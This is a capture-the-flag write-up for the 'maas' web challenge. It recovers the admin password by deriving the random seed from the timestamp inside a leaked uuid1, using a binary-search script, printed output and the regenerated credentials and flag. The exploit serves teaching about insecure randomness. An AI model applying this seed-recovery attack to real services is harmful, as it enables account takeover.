

# maas
## Description
> Cookie Stream is back, with a new auth system and something way more useful than rickrolling people.
## Attachments
>[maas.zip](maas/) http://maas.chal.imaginaryctf.org
---
# Web?
Let's take a look at the zip first.


We see what appears to be a standard web app created in python. Let's take a look at app.py as that's probably where 
our flag will be shown and where our vulnerability will be.

Scanning through the file, we find:
```python
@app.route('/home', methods=['GET'])
def home():
    cookie = request.cookies.get('auth')
    username = users[cookie]["username"]
    if username == 'admin':
        flag = open('flag.txt').read()
        return render_template('home.html', username=username, message=f'Your flag: {flag}', meme=random.choice(memes))
    else:
        return render_template('home.html', username=username, message='Only the admin user can view the flag.', meme=random.choice(memes))
...
def initialize():
  random.seed(round(time.time(), 2))`
  adduser("admin")
```
It seems our flag is hidden behind the admin user, we need to find a way to recover the password.
Thankfully, we're also given the function that generates the password.
```python
def adduser(username):
  if username in taken:
    return "username taken", "username taken"
  password = "".join([random.choice("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789") for _ in range(30)])
  cookie = sha256(password.encode()).hexdigest()
  users[cookie] = {"username": username, "id": str(uuid.uuid1())}
  taken.append(username)
  return cookie, password
```
In `initialize`, we see that the random seed is set to the time that the server was started. This means all we have to do is find
the starting time of the server, re-run the password generation code, and we should be able to log in. 

But where exactly do we get the time from?

## Universally Unique Identifier
Originally, we actually just tried bashing out the seed by creating new users. We was assumed the site we probably generated
some time in the past few days, so the seed shouldn't have been too hard to find. However, while the bash code was running, I ended up taking a closer look at the only other external function in the 
`adduser` method.
```python
users[cookie] = {"username": username, "id": str(uuid.uuid1())}
```
If we look at the description of `uuid.uuid1()`, we see 
```
Generate a UUID from a host ID, sequence number, and the current time.
If 'node' is not given, getnode() is used to obtain the hardware
address.  If 'clock_seq' is given, it is used as the sequence number;
otherwise a random 14-bit sequence number is chosen.
```
That means if we can somehow find the time that the server was started, we can also find the uuid of the admin user.
Working backwards, we can take the uuid and possibly try to reverse engineer the time.

Thankfully, checking app.py again, we see that we're given a place to find the uuid of admin.
```python
@app.route('/users')
def listusers():
  return render_template('users.html', users=users)

@app.route('/users/<id>')
def getuser(id):
  for k in users.keys():
    if users[k]["id"] == id:
      return f"Under construction.<br><br>User {users[k]['username']} is a very cool user!"
```
Visiting `/users`, we can see a list of the users and can also visit their profile, which gives us their uuid.

<sub>(These images were taken after contest ended which is why there is so little users)</sub><br/>
<br/>


Now that we've gotten the admin's uuid, let's take a look at the uuid1 internals to try and figure out how to reverse engineer the time.
```python
def uuid1(node=None, clock_seq=None):
    """Generate a UUID from a host ID, sequence number, and the current time.
    If 'node' is not given, getnode() is used to obtain the hardware
    address.  If 'clock_seq' is given, it is used as the sequence number;
    otherwise a random 14-bit sequence number is chosen."""

    # When the system provides a version-1 UUID generator, use it (but don't
    # use UuidCreate here because its UUIDs don't conform to RFC 4122).
    if _generate_time_safe is not None and node is clock_seq is None:
        uuid_time, safely_generated = _generate_time_safe()
        try:
            is_safe = SafeUUID(safely_generated)
        except ValueError:
            is_safe = SafeUUID.unknown
        return UUID(bytes=uuid_time, is_safe=is_safe)

    global _last_timestamp
    import time
    nanoseconds = time.time_ns()
    # 0x01b21dd213814000 is the number of 100-ns intervals between the
    # UUID epoch 1582-10-15 00:00:00 and the Unix epoch 1970-01-01 00:00:00.
    timestamp = nanoseconds // 100 + 0x01b21dd213814000
    if _last_timestamp is not None and timestamp <= _last_timestamp:
        timestamp = _last_timestamp + 1
    _last_timestamp = timestamp
    if clock_seq is None:
        import random
        clock_seq = random.getrandbits(14) # instead of stable storage
    time_low = timestamp & 0xffffffff
    time_mid = (timestamp >> 32) & 0xffff
    time_hi_version = (timestamp >> 48) & 0x0fff
    clock_seq_low = clock_seq & 0xff
    clock_seq_hi_variant = (clock_seq >> 8) & 0x3f
    if node is None:
        node = getnode()
    return UUID(fields=(time_low, time_mid, time_hi_version,
                        clock_seq_hi_variant, clock_seq_low, node), version=1)
```
Hmm, it seems we only have to care about the `time_low`, `time_mid`, and `time_hi_version` fields. 
Both `node` and `clock_seq` rely on functions that don't depend on the time, but we are also allowed to define them so we can just plug in the admin's values.

While browsing through the uuid module, I also saw this section in the UUID class:
```python
    def __eq__(self, other):
        if isinstance(other, UUID):
            return self.int == other.int
        return NotImplemented

    # Q. What's the value of being able to sort UUIDs?
    # A. Use them as keys in a B-Tree or similar mapping.

    def __lt__(self, other):
        if isinstance(other, UUID):
            return self.int < other.int
        return NotImplemented

    def __gt__(self, other):
        if isinstance(other, UUID):
            return self.int > other.int
        return NotImplemented

    def __le__(self, other):
        if isinstance(other, UUID):
            return self.int <= other.int
        return NotImplemented

    def __ge__(self, other):
        if isinstance(other, UUID):
            return self.int >= other.int
        return NotImplemented
```
This sparked another idea in my head...

## Binary Search 2: Electric Boogaloo
Rather than reverse engineering the pretty simple uuid1, I wanted to search for the correct time using binary search.

We could generate a uuid with a given time using the fixed clock_seq and node from the admin uuid, then compare it to the admin uuid. If
it was lower, we know that the time used to generate that uuid was before the generation of the admin uuid. 

To help with this search, I created a fake uuid module that would allow one to define the time used to generate the uuid
```python
def fakeuuid1(timing=None, node=None, clock_seq=None):
    """Generate a UUID from a host ID, sequence number, and the current time.
    If 'node' is not given, getnode() is used to obtain the hardware
    address.  If 'clock_seq' is given, it is used as the sequence number;
    otherwise a random 14-bit sequence number is chosen."""

    # When the system provides a version-1 UUID generator, use it (but don't
    # use UuidCreate here because its UUIDs don't conform to RFC 4122).
    # if _generate_time_safe is not None and node is clock_seq is None:
    #     uuid_time, safely_generated = _generate_time_safe()
    #     try:
    #         is_safe = SafeUUID(safely_generated)
    #     except ValueError:
    #         is_safe = SafeUUID.unknown
    #     return UUID(bytes=uuid_time, is_safe=is_safe)

    import time
    nanoseconds = time.time_ns() if timing is None else timing
    timestamp = nanoseconds // 100 + 0x01b21dd213814000
    if clock_seq is None:
        import random
        clock_seq = random.getrandbits(14) # instead of stable storage
    time_low = timestamp & 0xffffffff
    time_mid = (timestamp >> 32) & 0xffff
    time_hi_version = (timestamp >> 48) & 0x0fff
    clock_seq_low = clock_seq & 0xff
    clock_seq_hi_variant = (clock_seq >> 8) & 0x3f
    if node is None:
        node = getnode()
    return UUID(fields=(time_low, time_mid, time_hi_version,
                        clock_seq_hi_variant, clock_seq_low, node), version=1)
``` 
Then, we could use binary search to find the time that the uuid was generated!

There was just one small issue...

## Reformatting
In the definition for comparisions between UUID instances, the integer version of both uuids are used.
However, that integer version defines the times in the wrong order for our goals.
```python
int = ((time_low << 96) | (time_mid << 80) |
                   (time_hi_version << 64) | (clock_seq << 48) | node)
```
The more sensitive time `time_low` has a higher precedence in comparison than the less sensitive times, meaning we would binary search on the wrong bounds. To mitigate this, I just defined my own function that reversed their orders and computed another integer.
```python
def get_time(uuid: uuid.UUID):
    time_low, time_mid, time_hi_version  = uuid.time_low, uuid.time_mid, uuid.time_hi_version
    res = (time_hi_version << 48) | (time_mid << 32) | time_low
    return res

def compare(uuid1: uuid.UUID, uuid2: uuid.UUID):
    return get_time(uuid1) - get_time(uuid2)
```

Now all we have to do is implement the binary search and we should be good to go!

## Solution
```python
import fakeuuid as fuuid
import uuid
import time

def get_time(uuid: uuid.UUID):
    time_low, time_mid, time_hi_version  = uuid.time_low, uuid.time_mid, uuid.time_hi_version
    res = (time_hi_version << 48) | (time_mid << 32) | time_low
    return res

def compare(uuid1: uuid.UUID, uuid2: uuid.UUID):
    return get_time(uuid1) - get_time(uuid2)

uuidd = "c06495a4-0a4d-11ed-a1e4-161d5e4758ae"
node = int(uuidd.split("-")[-1], 16)
clock_seq = int(uuidd.split("-")[-2], 16)
adminUuid = uuid.UUID("{"+uuidd+"}")

uuiddd = "a"
i = 0
start = 1658000000000000000
end   = 1660000000000000000
m = 0
while start < end:
    m = (start + end) // 2
    uuiddd = fuuid.fakeuuid1(timing=m, node=node, clock_seq=clock_seq)

    i += 1
    if i % 10 == 0:
        print(i, m, uuiddd)

    cmp = compare(adminUuid, uuiddd)
    if cmp > 0:
        start = m + 1
    elif cmp < 0:
        end = m - 1
    else:
        break
        
# print date from time in nanoseconds
print(m)
print(time.strftime("%Y-%m-%d %H:%M:%S", time.localtime(m/1e9)))
print("seed: ", round(m/1e9,2))
```
This was my final script using the binary search, and it spat out the correct time almost immediately.
```
10 1658556640624999999 2d8c4e0f-0a4e-11ed-a1e4-161d5e4758ae
20 1658556455612182616 bf4596e2-0a4d-11ed-a1e4-161d5e4758ae
30 1658556457491591571 c0645d4b-0a4d-11ed-a1e4-161d5e4758ae
40 1658556457493034028 c06495a4-0a4d-11ed-a1e4-161d5e4758ae
1658556457493034028
2022-07-23 01:07:37
seed:  1658556457.49
```

Plugging this seed into the account generation, we can finally get the password.
```python
from hashlib import sha256
import uuid
import random

users = {}
taken = []
def adduser(username):
  if username in taken:
    return "username taken", "username taken"
  password = "".join([random.choice("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789") for _ in range(30)])
  cookie = sha256(password.encode()).hexdigest()
  users[cookie] = {"username": username, "id": str(uuid.uuid1())}
  taken.append(username)
  return cookie, password

random.seed(1658556457.49)
print(adduser("admin"))
# ('2a1626459dce7e714c3c0f89bb941027cfcf10eeff6abb1978a11ad959ab3ae8', 'Tc37Wn23cv0yTdqmdcg4JGiBuwYXw9')
```
And finally, logging onto the site, we are greeted with our flag.


```
ictf{d0nt_use_uuid1_and_please_generate_passw0rds_securely_192bfa4d}
```

# Conclusion
Amazing challenge, honestly there were a lot of places you could get stuck before trying the uuid. 

I also probably spent more time implementing the binary search and could've just bashed the time normally, but I think these types of optimizations are pretty cool
especially since you don't see them too often in CTFs (at least outside of crypto :joy:)